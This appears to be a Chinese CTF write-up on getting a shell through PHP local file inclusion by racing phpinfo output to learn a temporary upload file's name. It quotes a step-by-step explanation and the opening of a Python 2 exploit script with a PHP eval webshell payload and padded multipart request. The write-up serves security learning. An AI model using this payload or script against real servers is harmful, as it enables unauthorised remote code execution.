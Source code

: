 由于原题需要竞争所以后面就直接把flag放环境变量了

这里我们直接在phpinfo里面找就行



**原题解法**
拿到phpinfo我们就可以getshell了

> PHP LFI本地文件包含漏洞主要是包含本地服务器上存储的一些文件，例如session文件、日志文件、临时文件等。但是，只有我们能够控制包含的文件存储我们的恶意代码才能拿到服务器权限。假如在服务器上找不到我们可以包含的文件，此时可以通过利用一些技巧让服务存储我们恶意生成的临时文件，该临时文件包含我们构造的的恶意代码，此时服务器就存在我们可以包含的文件了。如果目标网站上存在phpinfo，则可以通过phpinfo来获取临时文件名，进而进行包含。
> 原文链接：https://blog.csdn.net/qq_63701832/article/details/129337902

> 过程
> 1.发送包含了webshell的上传数据包给phpinfo页面，这个数据包的header、get等位置需要塞满垃圾数据
>
> 2.phpinfo页面会将所有数据都打印出来，1中的垃圾数据会将整个phpinfo页面撑得非常大
>
> 3.php默认的输出缓冲区大小为4096，可以理解为php每次返回4096个字节给socket连接
>
> 4.操作原生socket，每次读取4096个字节。只要读取到的字符里包含临时文件名，就立即发送第二个数据包
>
> 5.此时，第一个数据包的socket连接实际上还没结束，因为php还在继续每次输出4096个字节，所以临时文件此时还没有删除
>
> 6.利用这个时间差，发第二个数据包，即可成功包含临时文件，最终getshell
>
> 处理
> PHP 对 enctype="multipart/form-data"请求的处理过程如下：
> 1、请求到达；
> 2、创建临时文件（通常是/tmp/php[6 个随机字符]），并写入上传文件的内容；
> 3、调用相应 PHP 脚本进行处理，如校验名称、大小等；
> 4、删除临时文件。
> 总结
> php post 上传文件产生临时文件，phpinfo读临时文件的路径和名字，本地包含后生成后门
> 原文链接：https://blog.csdn.net/qq_63701832/article/details/129337902

大佬的脚本，但是是python2的

```python
#!/usr/bin/python 
import sys
import threading
import socket
 
def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /06/phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
```